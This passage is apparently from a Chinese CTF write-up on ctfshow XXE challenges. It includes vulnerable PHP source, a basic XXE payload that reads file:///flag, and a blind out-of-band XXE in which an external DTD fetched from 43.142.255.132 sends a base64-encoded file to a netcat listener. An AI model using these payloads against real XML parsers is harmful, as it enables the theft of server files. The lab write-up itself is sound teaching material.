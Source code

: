 
payload：POST发包

```
<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY xxe SYSTEM "file:///flag">
]>
<sun>
<ctfshow>&xxe;</ctfshow>
</sun>
```

## web374

这题好像是无回显

```php
<?php

error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);    
```

payload：POST发包

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://43.142.255.132:1234/test.dtd">%xxe;]>
```

test.dtd

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://43.142.255.132:6666/?x=%file;'>">
%eval;
%exfiltrate;
```

在服务器用nc监听6666端口

```
nc -lvnp 6666
```

接收到 flag

<img src="图片\Snipaste_2023-02-05_21-06-20.png" alt="Snipaste_2023-02-05_21-06-20" style="zoom:80%;" />
